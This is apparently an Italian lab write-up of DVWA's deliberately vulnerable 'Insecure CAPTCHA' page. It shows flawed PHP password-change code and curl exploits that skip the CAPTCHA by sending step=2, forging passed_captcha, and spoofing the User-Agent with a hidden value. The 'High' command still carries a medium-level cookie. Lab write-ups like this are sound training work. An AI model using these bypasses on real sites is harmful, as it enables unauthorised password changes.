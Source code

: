 ## Insecure CAPTCHA

- https://en.wikipedia.org/wiki/CAPTCHA
- https://www.google.com/recaptcha/
- https://www.linuxsecrets.com/owasp-wiki/index.php/Testing_for_Captcha_(OWASP-AT-012).html

Completely Automated Public Turing test to tell Computer and Humans Apart (CAPTCHA) è un meccanismo sfida-risposta usato per verificare se l'utente è umano o meno.
Dopo la registrazione al servizio, in cui va indicato i domini su cui deve essere attivo, vengono fornite due chiavi.
Una pubblica da comunicare al client e una privata da tenere sul server.
Il codice javascript incluso nella pagina del client gestisce la validazione.

In generale il CAPTCHA va considerato come meccanismo di rate-limit.

### Insecure CAPTCHA - Low

```
if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '1' ) ) {
    // Hide the CAPTCHA form
    // Get input
    // Check CAPTCHA from 3rd party
    // Did the CAPTCHA fail?
    if( !$resp ) {
        // What happens when the CAPTCHA was entered incorrectly
    }
    else {
        // CAPTCHA was correct. Do both new passwords match?
        if( $pass_new == $pass_conf ) {
            // Show next stage for the user
        }
        else {
            // Both new passwords do not match.
        }
    }
}

if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '2' ) ) {
    // Hide the CAPTCHA form
    // Get input
    // Check to see if both password match
    if( $pass_new == $pass_conf ) {
        // They do!
        // Update database
        // Feedback for the end user
    }
    else {
        // Issue with the passwords matching
    }
}
```

Il primo if può essere evitato impostando nella richiesta `step=2`.

Exploit:

- recupera un PHPSESSID valido (`$1`)

- lancia:

```
curl -v\
	--cookie "PHPSESSID=$1; security=low" \
	--data "password_new=password2&password_conf=password2&g-recaptcha-response=&Change=Change" \
	--data "step=2" \
	http://172.17.0.2/vulnerabilities/captcha/
```

### Insecure CAPTCHA - Medium

```
if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '2' ) ) {
    // Hide the CAPTCHA form
    // Get input
    // Check to see if they did stage 1
    if( !$_POST[ 'passed_captcha' ] ) {
        $html     .= "<pre><br />You have not passed the CAPTCHA.</pre>";
        $hide_form = false;
        return;
    } 
}
```

Viene controllato che il solo parametro `$_POST[ 'passed_captcha' ]` sia impostato.

Exploit:

- recupera un PHPSESSID valido (`$1`)

- lancia:

```
curl -v\
	--cookie "PHPSESSID=$1; security=medium" \
	--data "password_new=password2&password_conf=password2&g-recaptcha-response=&Change=Change" \
	--data "step=2" \
	--data "passed_captcha=hacked" \
	http://172.17.0.2/vulnerabilities/captcha/
```

### Insecure CAPTCHA - High

```
// Check CAPTCHA from 3rd party
$resp = recaptcha_check_answer(
	$_DVWA[ 'recaptcha_private_key' ], 
	$_POST['g-recaptcha-response']);

if ( $resp || 
	( $_POST[ 'g-recaptcha-response' ] == 'hidd3n_valu3' 
		&& $_SERVER[ 'HTTP_USER_AGENT' ] == 'reCAPTCHA' )){ ... }
```

Exploit:

- recupera un PHPSESSID valido (`$1`)

- lancia:

```
curl -v\
	--cookie "PHPSESSID=$1; security=medium" \
	--data "password_new=password2&password_conf=password2&g-recaptcha-response=&Change=Change" \
	--data "step=2" \
	--data "passed_captcha=hacked" \
	-H "User-Agent: reCAPTCHA" \
	--data "g-recaptcha-response=hidd3n_valu3" \
	http://172.17.0.2/vulnerabilities/captcha/
```

